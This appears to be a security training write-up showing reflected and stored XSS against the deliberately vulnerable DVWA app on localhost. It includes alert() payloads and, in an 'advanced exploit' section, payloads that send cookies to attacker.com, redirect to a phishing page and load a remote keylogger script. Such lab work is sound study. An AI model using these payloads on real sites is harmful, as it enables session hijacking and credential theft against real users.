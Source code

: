# Attack Simulation 4 – Cross-Site Scripting (XSS) - Reflected & Stored

## 🎯 Objective

Demonstrate exploitation of both **Reflected** and **Stored** Cross-Site Scripting (XSS) vulnerabilities in the DVWA application. Simulate the **impact** of these attacks by exfiltrating the session cookie to prove real-world consequences like session hijacking.

---

## 🧠 What is XSS?

**Cross-Site Scripting (XSS)** is a client-side code injection attack. It occurs when an attacker is able to inject malicious scripts (usually JavaScript) into content served to users.

When the browser receives this malicious content, it executes it **in the context of the vulnerable application** — as if it were trusted.

### Types Demonstrated:
- **Reflected XSS** – Injected code is reflected immediately via the URL or form input.
- **Stored XSS** – Injected code is stored on the server (e.g., in a database) and executed every time a user accesses the infected page.

---

## 🧪 Environment

- **Target**: DVWA running on Ubuntu (`localhost`)
- **Security Level**: `Low` (to allow raw script injection)
- **Attacker**: Local browser (simulating a victim user)

---

## 1️⃣ Reflected XSS Exploitation

### 🔧 Vulnerable Input:
URL parameter `name` in `/xss_r.php`

### 🧬 Payload Used:
```html
<script>alert('XSS')</script>
```

![Reflected XSS Attack webssite](../../screenshots/attack-simulation-4/XSS%20website.png)

*Figure 1: Website*

![Reflected XSS Attack to see if it works](../../screenshots/attack-simulation-4/Reflected%20XSS.png)

*Figure 2: XSS (Reflected) attack*

### 💥 Effect:
- JavaScript executed immediately
- Proved that the application reflects unescaped input back into the browser
- No filtering or sanitization was applied

---

## 2️⃣ Stored XSS Exploitation

### 🔧 Vulnerable Input:
DVWA > `XSS (Stored)` module > Guestbook form

- **Name**: `cookie`
- **Message**:
```html
<script>alert(document.cookie)</script>
```

### 💥 Effect:
- Malicious JavaScript stored in backend database
- Triggered automatically for any user visiting the guestbook
- Alert displayed **PHPSESSID and security level**

### ✅ Demonstrated Real Impact:
```js
alert(document.cookie);
```

This revealed:
```
PHPSESSID=ufj3lg39cbj36me010uedeb9l; security=low
```

![XSS attack to reveal cookies used](../../screenshots/attack-simulation-4/Cookie.png)

*Figure 3: XSS attack to reveal cookies used*

This proves:
- Session hijacking is possible
- Any attacker could impersonate another user

---

## 🔐 Advanced Exploit Possibilities

Instead of just `alert()`, a real attacker could use:

### 📤 1. Steal Cookie (exfiltration)
```html
<script>new Image().src='http://attacker.com/log?cookie=' + document.cookie</script>
```

Would silently send the session to a malicious server.

### 🔁 2. Redirect to Phishing Page
```html
<script>window.location='http://malicious-site.com/login'</script>
```

Would redirect the victim to an external fake login page for credential harvesting.

### 📹 3. Load Keylogger
```html
<script src="http://attacker.com/keylogger.js"></script>
```

Executes external malicious JS hosted elsewhere.

---

## 📌 Summary

| Aspect | Detail |
|--------|--------|
| Vulnerabilities | Reflected XSS, Stored XSS |
| Exploited? | ✅ Yes |
| Demonstrated | Code execution, Cookie theft |
| Impact | Session hijacking, arbitrary JS execution |
| Tools | Browser only (manual injection) |
| Payloads Used | `<script>alert(...)`, `document.cookie` |
| Screenshots | Attached for both reflected and stored cases |

---

## ✅ Conclusion

We successfully exploited both **Reflected** and **Stored XSS** in DVWA. While we used `alert()` and `document.cookie` for demonstration purposes, the same flaw can be escalated to session hijacking, phishing, data exfiltration, and browser exploitation in real-world targets.

---

> 🔴 This confirms a **critical vulnerability (CWE-79)** and would be rated as **High** or **Critical** in most web application pentests.